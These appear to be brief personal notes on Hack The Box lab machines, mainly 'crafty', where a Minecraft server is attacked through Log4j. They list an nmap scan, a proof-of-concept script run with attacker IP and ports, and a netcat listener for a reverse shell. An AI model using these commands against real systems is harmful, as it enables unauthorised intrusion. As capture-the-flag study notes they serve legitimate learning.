 # bizness

10.10.11.252

![](monkeybizness.png)

# crafty

Open a website at 80, it has a mention o play.crafty.htb
Runs on IIS so is a windows machine

nmap -p$ports -sV -sC -A 10.10.11.249
we need to downlooad mincraft on my kali system!

Minecraft had a log4j vuln

python3 poc.py--userip 10.10.14.171 --webport 80 --lport 4444

rlwrap nc -lvn 4444

Then we simply input the url in the message box of the game server
and get a reverse shell
then use the java fle found in the sytem to revers engineer through ghidra



